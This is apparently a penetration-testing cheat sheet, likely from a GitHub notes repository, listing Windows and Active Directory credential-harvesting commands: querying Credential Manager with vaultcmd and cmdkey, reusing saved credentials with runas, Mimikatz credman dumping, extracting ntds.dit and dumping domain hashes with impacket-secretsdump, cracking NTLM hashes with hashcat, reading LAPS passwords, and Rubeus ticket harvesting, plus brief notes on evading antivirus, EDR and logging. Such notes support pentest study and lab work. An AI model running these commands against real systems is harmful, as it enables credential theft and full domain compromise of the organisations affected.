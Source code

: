    
### Accessing Credential Manager

1. `vaultcmd /list`
2. `VaultCmd /listproperties:"Web Credentials"`
3. `VaultCmd /listcreds:"Web Credentials"`

RunAs
1. `cmdkey /list`
2. If it's not empty
   - `runas /savecred /user:<domain>\<username> cmd.exe`
   
Mimikatz
1. `privilege::debug`
2. `sekurlsa::credman`


### Domain Controller

1. `powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"`
2. `impacket-secretsdump -security SECURITY -system SYSTEM -ntds ntds.dit local`
3. `impacket-secretsdump -just-dc <domain>/<AD_Admin_User>@<IP>`
   - `impacket-secretsdump -just-dc-ntlm <domain>/<AD_Admin_User>@<IP>`
4. `hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`


### Local Administrator Password Solution (LAPS)

1. Verify if there is LAPS in the machine
   - `dir "C:\Program Files\LAPS\CSE"`
2. `Get-Command *AdmPwd*`
3. Find which AD organizational unit (OU) has the "All extended rights" attribute that deals with LAPS
   - `Find-AdmPwdExtendedRights -Identity THMorg`
   - `Find-AdmPwdExtendedRights -Identity *`
4. Check the group and its members
   - `net groups "<TARGET GROUP>"`
   - `net user <test-admin>`
5. Compromise one of those accounts, get the password
   - `runas.exe /netonly /user:<username> cmd.exe`
   - `Get-AdmPwdPassword -ComputerName <creds-harvestin>`
   
### Rubeus Harvesting

- `Rubeus.exe harvest /interval:30`

## Offensive .NET

- When working with .NET (or any compiled language), several obstacles may arise:
  - Detection by defensive measures such as antivirus (AV) and endpoint detection and response (EDR) solutions;
  - Payload delivery, reminiscent of PowerShell's efficient download-execute cradles;
  - Detection through logging mechanisms like process creation and command-line logging.
- Note: Microsoft Defender for Endpoint (MDE) detection is okay, Microsoft Defender for Identity (MDI) is not.
